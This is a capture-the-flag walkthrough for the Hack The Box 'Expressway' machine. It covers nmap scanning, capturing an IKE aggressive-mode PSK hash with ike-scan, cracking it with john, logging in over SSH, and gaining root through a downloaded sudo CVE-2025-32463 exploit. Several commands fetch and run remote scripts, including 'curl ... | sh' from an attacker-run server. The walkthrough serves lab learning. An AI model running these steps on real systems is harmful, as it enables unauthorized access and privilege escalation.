

### Recon
We start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```


```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
7958/tcp  filtered unknown
15520/tcp filtered unknown
17165/tcp filtered unknown
25481/tcp filtered unknown
26111/tcp filtered unknown
26688/tcp filtered unknown
34466/tcp filtered unknown
47939/tcp filtered unknown
61696/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I've tried to brute force using `nmap`, this command, but i got nothing:
```bash
nmap -p 22 --script ssh-brute $target   
```
Then, I used the flag `-sU` to scan also `UDP` ports:
```bash
nmap -sU $target --min-rate=10000
```
And we did get:
```bash
PORT      STATE  SERVICE
500/udp   open   isakmp
17207/udp closed unknown
21803/udp closed unknown
23176/udp closed unknown
40116/udp closed unknown
49190/udp closed unknown
49201/udp closed unknown
```
So, we have the port `500` open, and running the service `isakmp`.

### achieve hash and crack it

Okay, we can google for it, and find this article: https://angelica.gitbook.io/hacktricks/network-services-pentesting/ipsec-ike-vpn-pentesting

When we execute this
```bash
ike-scan -M -A $target
```


as we can see, we got some details about the key.

We can use more aggressive mode, and by this way achieve the hash that we will crack using `john`, the hash of the user `ike`.

```bash
┌──(agonen㉿kali)-[~/htb/Expressway]
└─$ ike-scan -M -A  $target  --pskcrack=hash.txt -n ike@expressway.htb
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned
        HDR=(CKY-R=a34c14be44d2c76c)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        KeyExchange(128 bytes)
        Nonce(32 bytes)
        ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)
        Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.176 seconds (5.67 hosts/sec).  1 returned handshake; 0 returned notify
```


Now, let's transfrom it into `john`, using `ikescan2john`:
```bash
ikescan2john hash.txt > hash_to_crack.txt
```

And we just need to crack it using `john`:
```bash
john hash_to_crack.txt --wordlist=/usr/share/wordlists/rockyou.txt       
```

The password is `freakingrockstarontheroad`.

### Connect using ssh

Let's connect using `ssh` and the password we achieved, which is `freakingrockstarontheroad`:
```bash
ssh ike@$target
```


now, the user flag can be found in `/hone/ike/user.txt`:
```bash
ike@expressway:~$ cat /home/ike/user.txt
93092f0e609abb35cc2d3ff19c4d2d25
```

### Privilege escalation

First, we want to download the linPEAS, so i download it to my local machine:
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linPEAS.sh
```
and then set up an http server:
```bash
python3 -m http.server 8081
```

Now, we can access it from the remote machine
```bash
curl -L http://10.10.14.168:8081/linPEAS.sh | sh
```

As we can see, the sudo version is `1.9.17`.


After googling, i found this repo about the privilege escalation in this version: https://github.com/K3ysTr0K3R/CVE-2025-32463-EXPLOIT

Let's get the `exploit.sh`, so in our local machine:
```
curl -L https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2025-32463-EXPLOIT/refs/heads/main/CVE-2025-32463.sh -o CVE-2025-32463.sh

python3 -m http.server 8081
```

and on the remote machine
```bash
curl -L http://10.10.14.168:8081/CVE-2025-32463.sh -o /tmp/CVE-2025-32463.sh
chmod +x /tmp/CVE-2025-32463.sh
/tmp/CVE-2025-32463.sh
```


and now just getting the flag:
```bash
root@expressway:/# cat /root/root.txt
4975c6bab82fddda6d3028507713e49b
```



**User Flag:*****`93092f0e609abb35cc2d3ff19c4d2d25`***

**Root Flag:*****`4975c6bab82fddda6d3028507713e49b`***
